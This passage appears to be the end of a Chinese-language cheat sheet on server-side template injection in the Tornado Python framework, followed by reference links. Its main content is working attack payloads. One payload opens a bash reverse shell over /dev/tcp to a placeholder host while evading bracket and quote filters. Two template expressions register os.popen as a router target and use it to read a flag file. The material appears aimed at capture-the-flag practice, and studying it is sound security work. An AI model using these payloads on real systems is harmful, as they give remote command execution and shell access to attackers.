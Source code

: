```php
```

#### 弹shell（过滤括号及引号）

```php
__import__('os').system('bash -i >& /dev/tcp/xxx/xxx 0>&1')%0a"""%0a&data={%autoescape None%}{% raw request.body%0a    _tt_utf8=exec%}&%0a"""
```

#### 其他

```php
{{handler.application.default_router.add_rules([["123","os.po"+"pen","a","345"]])}}
{{handler.application.default_router.named_rules['345'].target('/readflag').read()}}
```

参考
--

[SecMap - SSTI（Tornado） - Tr0y's Blog](https://www.tr0y.wang/2022/08/05/SecMap-SSTI-tornado/#%E6%80%BB%E7%BB%93)

[(94条消息) tornado模板注入\_tornado 模板注入\_yu22x的博客-CSDN博客](https://blog.csdn.net/miuzzx/article/details/123329244)

[Tornado Web Server — Tornado 6.2.dev1 文档 (osgeo.cn)](https://www.osgeo.cn/tornado/)

[?Tornado入门这一篇足以 | iworkh blog (gitee.io)](https://iworkh.gitee.io/blog/2020/06/08/python_tornado_info/)